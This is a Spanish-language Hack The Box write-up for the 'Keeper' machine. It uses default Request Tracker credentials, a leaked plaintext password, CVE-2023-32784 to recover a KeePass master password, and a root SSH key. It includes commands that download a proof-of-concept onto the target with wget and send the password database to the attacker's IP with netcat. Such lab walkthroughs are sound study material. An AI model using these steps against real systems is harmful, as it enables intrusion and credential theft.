 ```yaml
---
title: Keeper
description: Keeper es una máquina Linux de dificultad fácil que presenta un sistema de gestión de tickets de soporte con credenciales por defecto. Al enumerar el servicio, se pueden encontrar credenciales en texto claro que permiten el acceso a SSH. Con acceso a SSH, se puede obtener un volcado de la base de datos de KeePass, lo cual permite recuperar la contraseña maestra. Una vez con acceso a la base de datos de KeePass, se obtienen las claves SSH de root, que permiten obtener una shell con privilegios en el host.
date: 2023-11-06
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-keeper/keeper_logo.png
categories:
  - Hack The Box
  - Machines
tags:
  - linux
  - hack the box
  - cve
  - data leaks
  - misconfigurations
  - ssh
  - http
  - tcp
  - information gathering
  - web analysis
  - data leak exploitation
  - cve exploitation
  - privilege escalation

---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/keeper:-$ sudo nmap -sCV 10.10.11.227 -n -Pn -oN map1
```

![](/assets/img/htb-writeup-keeper/keeper2.png)

---
## Web Analysis & Data Leak Exploitation

![](/assets/img/htb-writeup-keeper/keeper3.png)

```terminal
/home/kali/Documents/htb/machines/keeper:-$ echo "10.10.11.227\tkeeper.htb\ttiquets.keeper.htb" | sudo tee -a /etc/hosts
```

![](/assets/img/htb-writeup-keeper/keeper4.png)

Busco las credenciales por defecto del servicio '4.4.4+dfsg-2ubuntu1'.

<https://docs.bestpractical.com/rt/4.4.4/security.html>
>"Be sure to change the password for the 'root' user of RT. The default password is 'password'. This can be changed via the RT web interface at: Preferences > About me"

![](/assets/img/htb-writeup-keeper/keeper5.png)

Encuentro 2 usuarios registrados en el sistema. Y en el usuario 'lnorgaard' encuentro una contraseña 'Welcome2023!'.
 
![](/assets/img/htb-writeup-keeper/keeper6.png)

![](/assets/img/htb-writeup-keeper/keeper7.png)

```terminal
/home/kali/Documents/htb/machines/keeper:-$ ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password: Welcome2023!
lnorgaard@keeper:~$ ls
	RT30000.zip  user.txt
```
---
## Privilege Escalation & CVE Exploitation

```terminal
lnorgaard@keeper:~$ unzip RT30000.zip
	Archive: RT30000.zip
	inflating: KeePassDumpFull.dmp
	extracting: passcodes.kdbx
```

<https://nvd.nist.gov/vuln/detail/CVE-2023-32784>

El archivo 'KeePassDumpFull.dmp' es un volcado de memoria o 'dump' de un proceso de KeePass. La Vulnerabilidad CVE-2023-32784 permite recuperar la contraseña maestra en texto claro a partir de un volcado de memoria, incluso si la base de datos de KeePass está bloqueada o el proceso de KeePass ya no está en ejecución.

Existe un Proof of Concept en github precisamente para esto.
Una vez clonado el PoC, monto un servidor para exportarlo a la maquina victima.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ git clone https://github.com/CMEPW/keepass-dump-masterkey.git

/home/kali/Documents/htb/machines/keeper:-$ python3 -m http.server 

lnorgaard@keeper:~$ wget http://10.10.15.26:8000/poc.py
```

Al explotar el CVE, la primera letra de la contraseña no se recupera.

```terminal
lnorgaard@keeper:~$ python3 poc.py -d KeePassDumpFull.dmp
```

![](/assets/img/htb-writeup-keeper/keeper9.png)

Realizo una busqueda del resultado ```●,dgr●d med fl●d``` y encuentro una palabra en danes que coincide 'rødgrød med fløde'.

Importo 'keepass.kdbx' con Netcat. E instalo Keepass para abrir el archivo anterior.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ nc -nlvp 1234 > keepass.kdbx
	listening on any 1234 ...

lnorgaard@keeper:~$ nc 10.10.15.26 1234 < passcodes.kdbx
	nc 10.10.15.26 1234 < passcodes.kdbx

	... connect to [10.10.15.26] from (UNKNOWN) [10.10.11.227] 60582
	
/home/kali/Documents/htb/machines/keeper:-$ sudo apt install keepass2

/home/kali/Documents/htb/machines/keeper:-$ keepass2 keepass.kdbx
```

![](/assets/img/htb-writeup-keeper/keeper10.png)

![](/assets/img/htb-writeup-keeper/keeper11.png)

![](/assets/img/htb-writeup-keeper/keeper12.png)

 Copio y guardo la clave 'PuTTY' en un archivo '.ppk'.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ echo 'PuTTY-User-Key-File-3.md: ssh-rsa Encrypt…' > key.ppk
```
Para conviertir la clave privada del archivo '.ppk' a un formato '.pem' que OpenSSH puede utilizar, descargo la herramienta Putty-Tools.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ sudo apt install putty-tools 

/home/kali/Documents/htb/machines/keeper:-$ puttygen key.ppk -O private-openssh -o key.pem

/home/kali/Documents/htb/machines/keeper:-$ chmod 600 key.pem

/home/kali/Documents/htb/machines/keeper:-$ ssh -i key.pem root@10.10.11.227

root@keeper:~# cat root.txt
```

> <a href="https://www.hackthebox.com/achievement/machine/1521382/556" target="_blank">Keeper Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }
